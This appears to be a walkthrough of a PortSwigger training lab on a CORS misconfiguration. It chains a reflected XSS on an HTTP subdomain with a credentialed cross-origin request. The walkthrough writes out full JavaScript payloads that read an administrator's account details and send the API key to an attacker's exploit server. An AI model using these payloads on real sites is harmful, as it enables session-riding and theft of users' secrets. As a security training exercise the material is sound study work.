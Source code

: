 
# CORS vulnerability with trusted insecure protocols

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Hint: If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain.

---------------------------------------------

Reference: https://portswigger.net/web-security/cors





![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/1.png)
![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/2.png)

---------------------------------------------

Generated link: https://0a0900840416f0db818ac0da00ca0002.web-security-academy.net/


We find the endpoint /accountDetails:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/3.png)

There is a button to check the stock which opens a popup with the value:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/4.png)

We find a XSS here:

```
GET /?productId=<script>alert(1)</script>&storeId=1 HTTP/1.1
```





![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/5.png)
![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/6.png)

The url is the following one, a subdomain (stock) which uses HTTP:

```
http://stock.0a0900840416f0db818ac0da00ca0002.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

CORS code from previous lab:

```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("URL");
        req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
        req.withCredentials = true;
        req.send(null);
        function retrieveKeys() {
            location='/log?key='+this.responseText;
        };
  </script>
  <body>
</html>
```

In one-line:

```
<script>var req = new XMLHttpRequest();var url = ("https://0a1e008d0469f84380c3c126007600c7.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>
```

Added to the XSS exploit:

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url + "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='+this.responseText;};</script>&storeId=1
```

The “+” sign is deleted:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/7.png)

We will change “+” with "%2B

``` 
http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest();var url = ("https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net");req.onload = retrieveKeys;req.open('GET', url %2B "/accountDetails",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};</script>&storeId=1
```

Now we get the request in the logs:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/8.png)

Now we will add it to a payload like this so it opens when the message is received:

```
<body onload="window.open('URL')">
```

There are problems with nested quotes and double quotes so I will create a parameter “payload” with the CORS payload and send it to the victim:

```
<html>
<script>
var payload = "var req = new XMLHttpRequest();var url = (\"https://0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net\");req.onload = retrieveKeys;req.open('GET', url %2B \"/accountDetails\",true);req.withCredentials = true;req.send(null);function retrieveKeys() {location='https://exploit-0ad800bc03553b4781f5cfa401d10095.exploit-server.net/log?key='%2Bthis.responseText;};" ;
</script>

<body onload="window.open('http://stock.0a7b003603ae3b2881ded09d00fe0071.web-security-academy.net/?productId=<script>'+payload+'</script>&storeId=1')">
</html>
```

We get the information from administrator:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/9.png)

And decode the API key:



![img](images/CORS%20vulnerability%20with%20trusted%20insecure%20protocols/10.png)
